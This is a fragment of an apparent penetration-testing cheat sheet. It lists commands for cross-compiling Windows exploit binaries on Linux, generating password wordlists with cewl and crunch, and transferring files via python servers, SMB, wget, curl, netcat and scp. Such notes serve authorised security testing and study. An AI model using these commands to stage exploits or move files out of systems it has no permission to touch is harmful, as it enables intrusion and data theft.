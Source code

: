 ### For windows

```
To compile Win32 bit executables, execute i686-w64-mingw32-gcc -o <FILE.exe> <FILE.c>
To compile Win64 bit executables, execute x86_64-w64-mingw32-gcc -o <FILE.exe><FILE.c>
To Compiled .cpp source file, execute i586-mingw32msvc-g++ -o <FILE>.exe <FILE>.cpp
To compile python scripts, pyinstaller --onefile <SCRIPT.py>

# Compile windows .exe on Linux
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```

### Cross compile

```
gcc -m32 -Wall -Wl,--hash-style=both -o gimme.o gimme.c
```

------

## DICTIONARY GENERATION

```
cewl -m <WORDS_SIZE> --with-numbers -w dictiFromWebsite <URL> -d <DEPTH>
```

```
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -t Test@ -o passwords.txt
```

------

## FILE TRANSFER

### Linux

```
# PYTHON
python -m SimpleHTTPServer <PORT>
python2.7 -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

# FTP
sudo python3 -m pyftpdlib  -p 21 -w

# SMB
sudo smbserver.py -smb2support liodeus .

# WGET
wget <URL> -o <OUT_FILE>

# CURL
curl <URL> -o <OUT_FILE>

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE> 

# SCP
scp <SOURCE_FILE> <USER>@<IP>:<DESTINATION_FILE>
```
